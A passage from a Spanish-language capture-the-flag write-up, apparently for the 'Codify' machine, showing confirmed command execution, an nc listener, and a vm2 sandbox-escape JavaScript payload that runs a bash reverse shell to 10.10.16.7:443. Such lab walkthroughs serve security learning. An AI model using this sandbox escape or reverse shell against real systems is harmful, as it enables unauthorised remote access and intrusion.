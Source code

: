 

Al inyectar el siguiente código malicioso y darle a la opción de `Run`, comprobamos que en el resultado que nos muestra el servidor, nos aparece el resultado de la ejecución del comando `echo /usr/bin/id`. Con lo cual, parece ser que podemos llegar a inyectar comandos y lograr finalmente un`Remote Code Execution`, además comprobamos que el usuario que ha ejecutado el comando es `svc`.

<figure><img src="../../.gitbook/assets/imagen (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Teniendo esto presente, el siguiente paso será lograr obtener acceso al sistema. Con lo cual, con la herramienta de `nc` nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

En `Codify`, inyectaremos el siguiente código malicioso que nos permitirá ejecutar la Reverse Shell.

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('/bin/bash -c "bash -i >& /dev/tcp/10.10.16.7/443 0>&1"');
}
`
```